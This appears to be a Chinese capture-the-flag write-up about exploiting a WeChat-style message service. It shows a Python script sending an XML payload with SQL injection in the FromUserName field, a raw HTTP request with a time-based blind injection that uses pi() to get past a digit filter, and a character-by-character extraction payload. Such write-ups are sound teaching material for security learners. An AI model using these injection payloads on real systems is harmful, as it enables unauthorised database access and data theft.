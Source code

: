 出题人给出了公众后后面的地址，查看微信公众号的SDK可以发现可以通过一些xml数据进行发送
```
import requests

url = "http://39.107.33.77/"
content = "Test http://www.baidu.com TEAMKEY icq3be93d38562e68bc0a86368c2d6b2"

data = '''
<xml>
   <ToUserName><![CDATA[a]]></ToUserName>
   <FromUserName><![CDATA[1',(select content from note limit 3,1))--]]></FromUserName> 
   <CreateTime>1348831860</CreateTime>
   <MsgType><![CDATA[text]]></MsgType>
   <Content><![CDATA[%s]]></Content>
   <MsgId>1234567890123456</MsgId>
   <AgentID>1</AgentID>
</xml>
''' % content

print requests.post(url,data=data).content
```
通过提示存在注入，可以得到以下信息
```
<xml>
<ToUserName><![CDATA[1',(select content from note limit 3,1))--]]></ToUserName>
<FromUserName><![CDATA[a]]></FromUserName>
<CreateTime>1521882365</CreateTime>
<MsgType><![CDATA[text]]></MsgType>
<Content><![CDATA[Success!
Start Time:You can leave me message here: http://wc.qwb.com:8088/leave_message.php 
Over Time:Sat Mar 24 09:06:05 2018]]></Content>
<MsgId>1234567890123456</MsgId>
</xml>
```
绑定host: `wc.qwb.com` 的ip为`39.107.33.77`

![](https://p2.ssl.qhimg.com/t01829699aaeba7d22b.jpg)

其中message存在注入，限制的比较严格

```
POST /leave_message.php HTTP/1.1
Host: wc.qwb.com:8088

user=aaaaaaaaaaaaaaa&email=aaaa@qq.com&team=icq3be93d38562e68bc0a86368c2d6b2&message=1'-(sleep(ceil(pi())))-'1&submit=submit
```

![](https://p3.ssl.qhimg.com/t01f606eef4a3121817.jpg)

比如sleep函数参数里面不能用数字，可以使用`pi()`来绕过，另外就是`select from`部分。
```
message=12333'-(if(ascii(substring((select@b:=group_concat(username)from{cl0und.adminuser}),%s,1))like'%s',sleep(pi()),0))-'1
```
这里字段都需要猜解，猜不到password字段
